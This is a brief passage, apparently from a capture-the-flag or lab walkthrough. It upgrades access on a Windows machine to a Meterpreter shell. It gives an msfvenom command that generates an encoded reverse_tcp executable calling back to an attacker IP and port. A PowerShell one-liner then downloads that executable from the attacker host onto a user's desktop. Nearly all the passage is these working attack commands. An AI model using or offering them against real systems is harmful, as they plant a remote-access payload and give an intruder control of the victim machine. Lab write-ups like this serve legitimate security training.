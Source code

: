 we will now change the shell to the mterpreter shell

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.17.4.208 LPORT=9001 -f exe -o rev.exe`

![[Pasted image 20210527160634.png]]

and transfer and start a listener and run

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.17.4.208/rev.exe','C:\Users\bruce\desktop\rev.exe')"
```

![[Pasted image 20210527162653.png]]

